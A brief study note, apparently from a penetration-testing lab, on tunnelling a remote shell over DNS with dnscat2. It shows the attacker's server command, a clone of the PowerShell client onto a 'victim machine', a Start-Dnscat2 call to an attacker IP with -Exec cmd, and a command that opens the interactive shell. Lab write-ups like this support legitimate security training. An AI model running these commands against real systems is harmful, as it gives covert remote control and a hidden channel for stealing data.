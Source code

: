 installed in desktop but can see github again if need to install 

```
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
10.10.14.58 -> our own ip address

On the victim machine we can get dns2-powershell.git
```shell-session
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

```
PS: Import-Module .\dnscat2.ps1
PS: Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

Then we would have established a session then in dnscat2 we can see what we can do:
```
window -i 1
```
this creates a shell
